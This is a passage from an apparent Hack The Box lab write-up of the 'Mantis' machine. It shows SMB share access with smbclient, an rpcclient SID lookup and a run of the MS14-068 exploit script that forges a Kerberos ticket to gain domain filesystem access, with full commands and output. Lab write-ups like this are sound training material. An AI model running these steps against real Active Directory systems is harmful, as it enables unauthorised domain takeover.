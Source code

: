 

    root@kali# smbclient -W htb.local //mantis/c$ -k
    tree connect failed: NT_STATUS_ACCESS_DENIED



That makes sense, since this ticket is for james. If I try to connect to
`SYSVOL`, it works:



    root@kali# smbclient -W htb.local //mantis/sysvol -k
    Try "help" to get a list of possible commands.
    smb: \>



### Forge Golden Ticket

First I need the SID for the james user. I'll get it via `rpcclient`:



    rpcclient $> lookupnames james
    james S-1-5-21-4220043660-4019079961-2895681657-1103 (User: 1)



I was able to find a copy of `ms14-068.py`
[here](https://github.com/mubix/pykek), and I'll run it just like the
help suggests:



    root@kali# python /opt/pykek/ms14-068.py -u james@htb.local -s S-1-5-21-4220043660-4019079961-2895681657-1103 -d mantis.htb.local
    Password: 
      [+] Building AS-REQ for mantis.htb.local... Done!
      [+] Sending AS-REQ to mantis.htb.local... Done!
      [+] Receiving AS-REP from mantis.htb.local... Done!
      [+] Parsing AS-REP from mantis.htb.local... Done!
      [+] Building TGS-REQ for mantis.htb.local... Done!
      [+] Sending TGS-REQ to mantis.htb.local... Done!
      [+] Receiving TGS-REP from mantis.htb.local... Done!
      [+] Parsing TGS-REP from mantis.htb.local... Done!
      [+] Creating ccache file 'TGT_james@htb.local.ccache'... Done!



This creates a file, `TGT_james@htb.local.ccache`. I'll copy this into
`/tmp` where it is used:



    root@kali# cp TGT_james@htb.local.ccache /tmp/krb5cc_0



### Filesystem Access

Now I have access to the entire filesystem:


